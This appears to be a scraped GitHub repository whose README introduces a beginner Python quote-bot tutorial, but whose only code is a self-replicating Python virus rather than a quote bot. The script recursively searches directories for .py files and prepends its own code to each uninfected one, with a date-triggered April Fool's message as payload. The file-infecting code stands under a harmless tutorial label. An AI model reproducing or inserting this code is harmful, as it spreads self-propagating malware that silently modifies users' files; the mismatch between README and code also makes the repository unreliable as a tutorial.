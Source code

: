 # Let's Write a Python Quote Bot!

This repository will get you started with building a quote bot in Python. It's meant to be used along with the [Learning Lab](https://lab.github.com) intro to Python.

When complete, you'll be able to grab random quotes from the command line, like this:

> **$** python get-quote.py
> 
> Keep it logically awesome
> 
> **$** python get-quote.py
> 
> Speak like a human

## Start the Tutorial

You can find your next step in [this repo's issues](../../issues/)!
#!/usr/bin/python
import os, datetime, inspect
DATA_TO_INSERT = "GEEKSFORGEEKS"

#search for target files in path
def search(path):
	filestoinfect = []
	filelist = os.listdir(path)
	for filename in filelist:
		
		#If it is a folder
		if os.path.isdir(path+"/"+filename):
			filestoinfect.extend(search(path+"/"+filename))
			
		#If it is a python script -> Infect it	
		elif filename[-3:] == ".py":
			
			#default value
			infected = False
			for line in open(path+"/"+filename):
				if DATA_TO_INSERT in line:
					infected = True
					break
			if infected == False:
				filestoinfect.append(path+"/"+filename)
	return filestoinfect
#changes to be made in the target file
def infect(filestoinfect):
	target_file = inspect.currentframe().f_code.co_filename
	virus = open(os.path.abspath(target_file))
	virusstring = ""
	for i,line in enumerate(virus):
		if i>=0 and i <41:
			virusstring += line
	virus.close
	for fname in filestoinfect:
		f = open(fname)
		temp = f.read()
		f.close()
		f = open(fname,"w")
		f.write(virusstring + temp)
		f.close()
		
#Not required actually		
def explode():
	if datetime.datetime.now().month == 4 and datetime.datetime.now().day == 1:
			print ("HAPPY APRIL FOOL'S DAY!!")
filestoinfect = search(os.path.abspath(""))
infect(filestoinfect)
explode()
